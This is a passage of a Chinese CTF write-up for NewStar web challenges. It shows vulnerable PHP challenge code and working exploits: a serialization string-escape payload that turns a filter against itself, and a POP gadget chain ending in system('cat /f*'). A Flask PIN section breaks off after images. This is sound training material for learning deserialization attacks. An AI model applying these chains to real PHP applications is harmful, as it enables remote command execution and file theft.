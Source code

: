 ## 前言

```java
Newstar第四周最后一周，赶紧润来看看题
```

## 逃

```java
<?php
highlight_file(__FILE__);
function waf($str){
    return str_replace("bad","good",$str);
}

class GetFlag {
    public $key;
    public $cmd = "whoami";
    public function __construct($key)
    {
        $this->key = $key;
    }
    public function __destruct()
    {
        system($this->cmd);
    }
}

unserialize(waf(serialize(new GetFlag($_GET['key'])))); 
```

```java
字符的变化 少->多肯定是字符串逃逸，但是我的脑瓜子做这种题就很蒙
O:7:"GetFlag":2:{s:3:"key";s:81:"27个good";s:3:"cmd";s:7:"cat /f*";}    
其实少->多就是覆盖全部的字符
   
```

O:7:"GetFlag":2:{s:3:"key";s:105:"`badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:7:"cat /f*";}`";s:3:"cmd";s:6:"whoami";}

红色包围的是105个字符，但是waf后就会变为

O:7:"GetFlag":2:{s:3:"key";s:105:"`27个 good`";s:3:"cmd";s:7:"cat /f*";}   `后面到了前面的}就会结束`";s:3:"cmd";s:6:"whoami";}

大致就是这样，所以只用算出 ";s:3:"cmd";s:7:"cat /f*";} 即可有多少个，就有多少个bad

##### 然后发现发现一个`trick`

```java
{s:8:"filename";S:8:"\66\6c\61\67\2E\70\68\70";}  其中S必须大写才会存在16进制,flag.php，可以用16进制绕过
```

```jav
key=badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad%22;s:3:%22cmd%22;s:7:%22cat%20/f*%22;}
```

## More Fast

```java
<?php
highlight_file(__FILE__);

class Start{
    public $errMsg;
    public function __destruct() {
        die($this->errMsg);
    }
}

class Pwn{
    public $obj;
    public function __invoke(){
        $this->obj->evil();
    }
    public function evil() {
        phpinfo();
    }
}

class Reverse{
    public $func;
    public function __get($var) {
        ($this->func)();
    }
}

class Web{
    public $func;
    public $var;
    public function evil() {
        if(!preg_match("/flag/i",$this->var)){
            ($this->func)($this->var);
        }else{
            echo "Not Flag";
        }
    }
}

class Crypto{
    public $obj;
    public function __toString() {
        $wel = $this->obj->good;
        return "NewStar";
    }
}

class Misc{
    public function evil() {
        echo "good job but nothing";
    }
}

$a = @unserialize($_POST['fast']);
throw new Exception("Nope");
Fatal error: Uncaught Exception: Nope in /var/www/html/index.php:55 Stack trace: #0 {main} thrown in /var/www/html/index.php on line 55
```

呃呃呃一眼GC回收机制，

 ($this->func)($this->var);  这里直接取反发现没成功。。。。qaq

直接system就可以，呃呃呃本地一直括号报错，耽误时间了。。。

![image-20231023135759520](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231023135759520.png)

```java
$S=new Start();
$S->errMsg=new Crypto();

$S->errMsg->obj=new Reverse();
$S->errMsg->obj->func=new Pwn();
$S->errMsg->obj->func->obj=new Web();
$S->errMsg->obj->func->obj->func="system";

$S->errMsg->obj->func->obj->var="cat /f*";

$a=array(0=>$S,1=>3);

//a:2:{i:0;O:5:"Start":1:{s:6:"errMsg";O:6:"Crypto":1:{s:3:"obj";O:7:"Reverse":1:{s:4:"func";O:3:"Pwn":1:{s:3:"obj";O:3:"Web":2:{s:4:"func";s:19:"~%8C%86%8C%8B%9A%92";s:3:"var";s:7:"~%93%8C";}}}}}i:0;i:3;}
echo serialize($a);
```

## flask disk

可以看到这道题简单的三个功能

![image-20231030130310077](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231030130310077.png)

admin manage是一个console，说明需要flask算pin码，有个上传文件的地方，发现了题目给的app.py路径，

所以我们现在需要

![image-20231030130627874](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231030130627874.png)
